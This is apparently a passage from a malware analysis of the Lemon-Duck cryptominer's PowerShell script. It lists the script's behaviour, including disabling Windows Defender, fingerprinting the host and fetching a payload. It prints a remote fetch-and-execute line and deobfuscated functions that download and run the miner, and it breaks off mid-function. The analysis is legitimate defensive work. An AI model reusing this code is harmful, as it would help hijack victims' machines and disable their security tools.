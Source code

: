 ```powershell
SIEX "$core_url/report.jsp"
```

Now we have a pretty clear PowerShell script that we can read and analyse.

The first things we notice from a quick skim are:

- The PowerShell script is communicating with multiple domains
- It copies the powershell.exe executable to a differently-named file in the same original PowerShell path
- It tries to disable Windows Defender
	- It also adds an exclusion to the C:\\ directory, the path to the PowerShell executable, and the other copy it makes of powershell.exe
- Detects the type of GPU running on the system in order to start mining
- Sets a user agent of "Lemon-Duck" before sending a request to a specific domain

On further analysis, we found out that the server requires the following conditions in order to reply with the payload:

- The user agent has to be Lemon-Duck
- The parameters need to state some of the following properties of the system:
	- Hostname
	- UUID
	- MAC Address
	- Windows Version
	- Username
	- Domain Name
	- GPU Brand (Nvidia or AMD)
- This script downloads the cryptominer itself and executes it
- There are two important functions:
	- `gcf()`:
		- Takes a file hash and file name
		- Downloads the actual miner itself in the `%TMP%` directory
		- Verifies the hashes of the downloaded files
	- `stp()`:
		- Takes a file path
		- Executes the file using cmd.exe
- Here’s a more clear version of these functions:

```powershell
function stp($gra){
	write-host $gra
	Start-Process -FilePath cmd.exe -ArgumentList "/c $gra"
}

function gcf($code,$md,$fn){
	echo $code;
	$ifmd5 = $md;
	$ifp=$env:tmp+'\' + $fn;
	$down_url='';

	function gmd5($con)
	{
		[System.Security.Cryptography.MD5]::Create().ComputeHash($con) | foreach{$s+=$_.ToString('x2')};
		return $s
	}

	if (test-path $ifp)
	{
	  $con_=[System.IO.File]::ReadAllBytes($ifp);
	  $md5_=gmd5 $con_;
	  if ($md5_ -eq $ifmd5)
	  {
		  $noup = 1
	  }
```